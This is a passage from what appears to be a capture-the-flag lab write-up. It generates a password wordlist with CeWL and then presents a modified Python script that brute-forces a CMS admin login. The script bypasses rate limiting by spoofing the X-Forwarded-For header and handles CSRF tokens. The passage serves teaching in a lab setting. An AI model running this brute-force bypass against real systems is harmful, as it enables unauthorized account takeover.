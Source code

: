 #### Using CeWL to generate wordlists

We can use a tool called [CeWL](https://github.com/digininja/CeWL) to grep all words from the website and use it as possible password-candidates.

```bash
root@darkness:~# cewl http://10.10.10.191 -w wl.txt -m 5
root@darkness:~#  cat wl.txt | wc -l
243
```

We define that all words with at least 5 characters are added to the wordlist resulting into 243 possible password candidates.

Next we can use this wordlist with the login-bypass-poc (which I have slightly modified).

```python
#!/usr/bin/env python3
import re, requests, sys

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

for password in open("wl.txt","r"):
    password = password.rstrip() # Remove newline
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print(f'[*] Trying: {password}')

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
    sys.stdout.write("\033[F")
    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print(f'[+] Password found: {password}\n')
            break
```

Now let us run the poc with our generated wordlist.

